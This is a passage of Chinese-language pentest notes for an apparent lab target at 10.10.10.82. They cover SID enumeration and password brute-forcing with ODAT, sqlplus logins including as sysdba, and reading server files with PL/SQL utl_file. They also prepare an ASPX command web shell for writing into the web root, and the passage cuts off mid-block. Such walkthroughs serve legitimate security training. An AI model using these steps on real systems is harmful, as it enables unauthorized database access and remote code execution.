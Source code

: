 [吉哈伯連結](https://github.com/quentinhardy/odat?source=post_page-----65a330773117--------------------------------)
#### 列舉sid
```
./odat.py sidguesser -s 10.10.10.82 -p 1521
```
#### 密碼爆破
```
./odat.py passwordguesser -s 10.10.10.82 -p 1521 -d XE
```
### Sql指令
#### 透過sqlplus連線
```
sqlplus scott@10.10.10.82
```
#### 透過sqlplus連線(sysdba)
```
sqlplus scott@10.10.10.82 as sysdba
```
#### 檢查帳號權限
```
select * from session_privs;
```
#### 開啟serveroutput
```
set serveroutput on
```
### 讀取、寫入檔案 
>[!warning ] 小節重點
>因為Oracle的限制，寫入最多100字，所以寫入之前要先檢查，最好是把空格、css、style、comment拿掉
- 去除空白指令
```
sed -z 's/\n//g' cmdasp.aspx
```
- 計算字數指令
```
sed -z 's/\n//g' cmdasp.aspx | wc -c
```
#### 讀取檔案
```
declare  
f utl_file.file_type;  
s varchar(200);  
begin  
f := utl_file.fopen('/inetpub/wwwroot', 'iisstart.htm', 'R');  
utl_file.get_line(f,s);  
utl_file.fclose(f);  
dbms_output.put_line(s);  
end;  
/
```
寫入檔案 
```
declare  
f utl_file.file_type;  
```